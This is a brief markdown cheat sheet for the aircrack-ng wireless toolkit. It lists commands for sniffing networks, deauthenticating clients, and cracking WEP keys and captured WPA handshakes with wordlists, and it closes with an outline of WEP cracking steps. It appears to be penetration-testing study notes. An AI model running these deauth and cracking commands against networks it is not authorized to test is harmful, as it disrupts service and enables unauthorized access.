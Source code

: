 ## Airodump-ng

```bash
# specify the channel to sniff
airodump-ng -c <channel> --bssid <bssid>

# sniff a single bssid and output to file
airodump-ng -c <channel> --bssid <bssid> -w <file name>

# sniff both 2.4 and 5 GHz 
airodump-ng wlan0 --band abg

# show WPS status for WPA networks
airodump-ng wlan0 --wps
```

## Aireplay-ng

```bash
# deauth every client connected to a BSSID
sudo aireplay-ng --deauth <no. deauth frames> -a <bssid> wlan0mon

# deauth a singular client
sudo aireplay-ng --deauth <no. deauth frames> -a <bssid> -c <client_MAC> wlan0mon
```

## Aircrack-ng

```bash
# benchmark
sudo aircrack-ng -S  

# no dictionary needed for WEP cracking, just need enough IVs
sudo aircrack-ng wep.cap

# crack a handshake saved in a cap file:
sudo aircrack-ng -w <wordlist> -e <ESSID> -b <AP BSSID> file.pcap
sudo aircrack-ng -w /usr/share/john/password.lst -e <ESSID> -b <ap bssid> file.cap

# crack with airolib DB (precomputed PMKs)
sudo aircrack-ng -r wifu.sqlite wpa1-01.cap
```

# Cracking

## WEP with Connected Clients

1. Force leakage of IVs with:
    1. Fake Authentication
    2. ARP Request Replay Attack
    3. Deauthentication Attack
